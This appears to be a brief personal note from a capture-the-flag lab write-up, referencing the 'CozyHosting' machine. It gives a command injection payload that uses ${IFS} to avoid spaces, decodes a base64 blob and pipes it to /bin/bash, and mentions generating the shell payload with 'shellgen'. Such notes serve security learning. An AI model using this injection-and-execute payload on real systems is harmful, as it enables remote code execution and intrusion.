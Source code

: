 Reference: [[m CozyHosting]]


- Use this in the input filed where command injection is 

```
;echo${IFS}<base64 encoded payload>|base64${IFS}-d|/bin/bash;
```

- we can get the payload from shellgen

- `${IFS}`: This is a variable representing the Internal Field Separator. The IFS is used by the shell to determine how to separate words and lines in a command. By default, it includes space, tab, and newline.
- IFS was use in the example because white spaces was giving an error